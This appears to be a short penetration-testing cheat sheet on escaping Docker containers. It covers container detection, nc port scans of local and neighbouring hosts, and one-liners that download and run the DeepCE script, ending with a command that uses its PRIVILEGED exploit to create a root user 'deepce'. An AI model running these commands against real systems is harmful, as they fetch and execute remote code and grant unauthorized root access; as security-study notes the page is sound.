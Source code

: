 # Docker Escape

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/Docker_Security_Cheat_Sheet.html" %}

## Know you're in a docker

```bash
ps aux
cd / && ls -lah
# if .dockerenv then ...

cat /proc/1/cgroup
```

## Escape

```bash
arp -a
# other hosts ???
# scan open ports
nc -zv 127.0.0.1 1-65535
nc -zv $host 1-65535

# check for db and other stuff....
```

### Resources

{% embed url="https://unit42.paloaltonetworks.com/docker-patched-the-most-severe-copy-vulnerability-to-date-with-cve-2019-14271/" %}
Docker Patched the Most Severe Copy Vulnerability to Date With CVE-2019-14271
{% endembed %}

#### DeepCE

{% embed url="https://github.com/stealthcopter/deepce" %}

```bash
wget https://github.com/stealthcopter/deepce/raw/main/deepce.sh
curl -sL https://github.com/stealthcopter/deepce/raw/main/deepce.sh -o deepce.sh
# Or using python requests
python -c 'import requests;print(requests.get("https://github.com/stealthcopter/deepce/raw/main/deepce.sh").content)' > deepce.sh 
python3 -c 'import requests;print(requests.get("https://github.com/stealthcopter/deepce/raw/main/deepce.sh").content.decode("utf-8"))' > deepce.sh

# start
chmod +x ./deepce.sh
./deepce.sh

# create new root user on system
./deepce.sh --no-enumeration --exploit PRIVILEGED --username deepce --password deepce
```
